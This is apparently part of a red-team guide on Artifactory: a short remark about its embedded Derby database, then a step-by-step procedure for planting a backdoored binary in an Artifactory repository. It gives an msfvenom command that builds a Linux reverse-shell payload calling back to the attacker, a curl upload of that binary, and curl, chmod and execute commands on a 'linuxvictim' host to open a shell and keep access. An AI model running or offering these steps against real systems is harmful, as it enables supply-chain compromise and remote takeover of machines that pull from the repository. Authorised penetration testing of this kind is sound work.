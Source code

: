### Conclusion

Interacting with the embedded Derby database for Artifactory requires knowledge of SQL and the use of tools like `ij`. However, it's generally recommended to manage users and configurations through Artifactory's REST API to ensure consistency and avoid potential data corruption.


To deploy a backdoored binary to an Artifactory repository, download it, and then run it on a target Linux machine (referred to as "linuxvictim"), you can follow these steps. Keep in mind that this approach is typically used for penetration testing or Red Team activities in controlled environments where you have explicit permission to test the security.

### 1. Create a Backdoored Binary
First, create a binary with an embedded payload (e.g., using Metasploit, msfvenom, or a custom backdoor).

Example with `msfvenom`:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf -o backdoored_app
```

This creates a reverse shell binary that connects back to your machine.

### 2. Upload the Backdoored Binary to Artifactory
Next, you can upload the binary to an Artifactory repository.

#### Using the Artifactory Web UI:
1. Log in to Artifactory.
2. Navigate to the target repository.
3. Click on "Deploy" and upload your backdoored binary (`backdoored_app`).

#### Using the Artifactory REST API:
You can also use a script to upload the binary.

Example with `curl`:
```bash
curl -u <username>:<password> -T backdoored_app "http://<artifactory_url>/artifactory/<repo>/<path>/backdoored_app"
```

### 3. Download the Backdoored Binary on the Target Machine
Assuming you have some level of access to `linuxvictim`, you can download and execute the binary.

Example using `curl` on `linuxvictim`:
```bash
curl -O "http://<artifactory_url>/artifactory/<repo>/<path>/backdoored_app"
chmod +x backdoored_app
./backdoored_app
```

### 4. Execute the Binary and Maintain Access
Once the binary is executed on `linuxvictim`, it will establish a reverse shell connection back to your machine, giving you control over the system.
